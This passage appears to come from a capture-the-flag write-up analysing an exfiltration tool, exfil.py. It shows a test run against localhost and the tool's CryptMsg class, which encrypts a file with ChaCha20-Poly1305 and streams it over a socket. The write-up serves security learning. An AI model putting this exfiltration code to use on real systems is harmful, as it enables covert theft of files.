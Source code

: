 Interestingly the key argument is optional. Looking at the code, when no key it supplied it will enter interactive key mode so the user can manually supply the key.

```
python3 exfil.py 127.0.0.1 1337 test
```

<center><img src = "/assets/images/adversaryquest/exfiltrator_interactivekey.png"></center>

There is a big ANSI colorized banner and entering a key interactively is echoed back in fancy color! Keeping that in mind for later, the code was explored to look at the cryptographic functions used to encrypt the data and how it was being sent.

```
class CryptMsg:
    def __init__(self, key, filename, host, port):
        self.filename = os.path.abspath(filename)
        self.version = 1
        self.filename = filename
        self.key = key
        self.key_salt = get_random_bytes(16)
        self.derived_key = scrypt(self.key, self.key_salt, 32, 2**14, 8, 1)
        self.cipher = ChaCha20_Poly1305.new(key=self.derived_key)
        self.host = host
        self.port = port
        self.sock = None
        self.finished = False

    def _send_preamble(self):
        self.sock.sendall(b"".join([
            u8(self.version),
            u8(len(self.cipher.nonce)),
            self.cipher.nonce,
            u8(len(self.key_salt)),
            self.key_salt,
            self.cipher.encrypt(u32(len(self.filename))),
            self.cipher.encrypt(self.filename.encode()),
        ]))

    def _send_file(self):
        with open(self.filename, "rb") as infile:
            while chunk := infile.read(4096):
                self.sock.sendall(self.cipher.encrypt(chunk))

    def _send_digest(self):
        self.sock.sendall(self.cipher.digest())
```